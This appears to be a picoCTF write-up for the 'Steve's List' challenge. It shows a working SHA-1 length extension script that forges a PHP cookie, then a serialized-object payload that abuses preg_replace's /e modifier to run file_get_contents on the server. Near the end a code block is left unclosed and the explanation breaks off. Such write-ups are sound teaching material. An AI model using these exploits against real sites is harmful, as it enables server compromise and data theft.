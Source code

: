 # Steve's List

What a fun challenge! We have a pwned website and we have to figure out how to pwn it as well.

## Hash Length Extension
Looking at the `steves_list_backup.zip` we see the following files:
```
$ ls
cookies.php  includes  index.php  posts  root_data.php  Steve.png  templates
```

The first file to note is `cookies.php`:
```php
  2   if (isset($_COOKIE['custom_settings'])) {
        ...
 16     }
 17   } else {
 18     $custom_settings = array(0 => true);
 19     setcookie('custom_settings', urlencode(serialize(true)), time() + 86    400 * 30, "/");
 20     setcookie('custom_settings_hash', sha1(AUTH_SECRET . serialize(true)    ), time() + 86400 * 30, "/");
 21   }
```
Lines 19 and 20 show that if the cookie `custom_settings` isn't set aka if it is the user's first visit to the website, then two cookies are set: `custom_settings` and `custom_settings_hash`.

This can be verified in Google Chrome via the developer console (`Right Click -> Inspect Element -> 'Console'`)
```
> document.cookie
"custom_settings=b%253A1%253B; custom_settings_hash=2141b332222df459fd212440824a35e63d37ef69"
```

Line 5 of the same file is of key importance to us.
```php
  4     $custom_settings = urldecode($_COOKIE['custom_settings']);
  5     $hash = sha1(AUTH_SECRET . $custom_settings);
  6     if ($hash !== $_COOKIE['custom_settings_hash']) {
  7       die("Why would you hack Section Chief Steve's site? :(");
  8     }
```

Ah! So we are taking the cookie value in `custom_settings`, prepending the `AUTH_SECRET` and performing a sha1 hash. This screams to us, **LENGTH EXTENSION ATTACK**. For more details on this technique, [click here](http://en.wikipedia.org/wiki/Length_extension_attack).

Essentially, if we know the input data, the resulting hash, and the hash type, we can append malicious code to the initial data and receive a hash that will pass the given test. To do the hash calculation, we will utilize [hlextend](https://github.com/stephenbradshaw/hlextend).

To prove this, let's test hlextend.
```python
import hlextend
import requests
import subprocess

def php_urlencode(s):
    '''Return php urlencoded string'''
    print "ENCODE: " + s
    s = s.replace("\x00", "\0")
    encode_php = "<?php $text = <<<EOD\n{}\nEOD;\necho urlencode($text);\n?>".format(s)

    with open('encode_me.php', 'w') as f:
        f.write(encode_php)

    output = subprocess.check_output('php encode_me.php', shell=True)
    return output

url = 'http://steveslist.picoctf.com'
original_hash = '2141b332222df459fd212440824a35e63d37ef69'
original_data = 'b:1;'
appended_data = 'pwned'
key_length = 8

# Get our new hash for our new data
sha = hlextend.new('sha1')
cookie = sha.extend(appended_data, original_data, key_length, original_hash)
cookie_hash = sha.hexdigest()

# Send a request with our new cookie to verify our method works
output = php_urlencode(cookie)
cookies = {'custom_settings_hash': cookie_hash,
           'custom_settings': output}
print requests.get(url, cookies=cookies).text
```
In short, we appended **pwned** to the original data of **b:1;**, ran the new data through *hlextend.py* to receive our new hash, then requested the web page with our new cookie.
```html
$ python hlextend_test.py
<html>
  <head>
    <title>Steve's List</title>
    <link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" />
    <link rel="stylesheet" href="steves_list.css" />
    <script src="javascript" src="http://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/js/bootstrap.min.js"></script>
  ...
  
  ...
<!-- POST 0wn3d by D43d4lu5 C0rp: OWNED OWNED OWNED OWNED OWNED OWNED SECTION CHIEF STEVE IS THE WORST<br><img src='./daedalus.png'><br><script>alert(1);</script><marquee>rekt</marquee><br><br><blink>we changed your secret</blink><br><br><marquee><blink>bet you'll never get control of this site back</blink></marquee><br><blink>look at this top quality tag we added</blink> --><!-- POST I'm Section Chief Steve: I'm the best.<br>The very best.<br><img src='./Steve.png'> -->
```
Because we see the HTML for the home page, we know that our cookie creation worked. Winning!

Now, what can we do with this new cookie creation?

## Unserialize object creation

Let's take a quick look at the `classes.php` file:
```php
  class Post {
    protected $title;
    protected $text;
    protected $filters;
    function __construct($title, $text, $filters) {
      $this->title = $title;
      $this->text = $text;
      $this->filters = $filters;
    }

    function get_title() {
      return htmlspecialchars($this->title);
    }

    function display_post() {
      $text = htmlspecialchars($this->text);
      foreach ($this->filters as $filter)
        $text = $filter->filter($text);
      return $text;
    }

    function __destruct() {
      // debugging stuff
      $s = "<!-- POST " . htmlspecialchars($this->title);
      $text = htmlspecialchars($this->text);
      foreach ($this->filters as $filter)
        $text = $filter->filter($text);
      $s = $s . ": " . $text;
      $s = $s . " -->";
      echo $s;
    }
  };

  $standard_filter_set = [new Filter("/\[i\](.*)\[\/i\]/i", "<i>\\1</i>"),
                          new Filter("/\[b\](.*)\[\/b\]/i", "<b>\\1</b>"),
                          new Filter("/\[img\](.*)\[\/img\]/i", "<img src='\\1'>"),
                          new Filter("/\[br\]/i", "<br>")];
?>
```

We have a *Post* class that contains the `title` of a post, the `text` of a post, and `filters` on a post to essentially write markdown-style data without having to worry about html tags (or at least that was the intended purpose ;-)

There is a hint in the destructor of `// debugging stuff`. Typically, this is something to look out for.

When called, the destructor calls each filter in the Post's `filters` on the `text` of the Post. Let's take a closer look at what the filter does.
```php
<?php
  class Filter {
    protected $pattern;
    protected $repl;
    function __construct($pattern, $repl) {
      $this->pattern = $pattern;
      $this->repl = $repl;
    }
    function filter($data) {
      return preg_replace($this->pattern, $this->repl, $data);
    }
  };
```

Ah ha! Good ole `preg_replace`. This function replaces the match of the regex `pattern` in `data` with `repl`.
Here is the given example in the code:
```php
new Filter("/\[i\](.*)\[\/i\]/i", "<i>\\1</i>")
```
Applying this filter will do the following:

Before
```
[i] Words words words [/i]
```
After
```
<i> Words words words </i>

```php
<?php
require_once('steves_list_backup/includes/classes.php');
$filter = [new Filter('/^(.*)/e', 'file_get_contents(\\\'{}\\\')')];

$text = "file_get_contents";
$text = htmlspecialchars($text);

$title = "yay_flag";
$title = htmlspecialchars($title);

$post = new Post($title, $text, $filter);

$post_ser = serialize($post);

$ser = $post_ser;
echo $ser;
?>
```



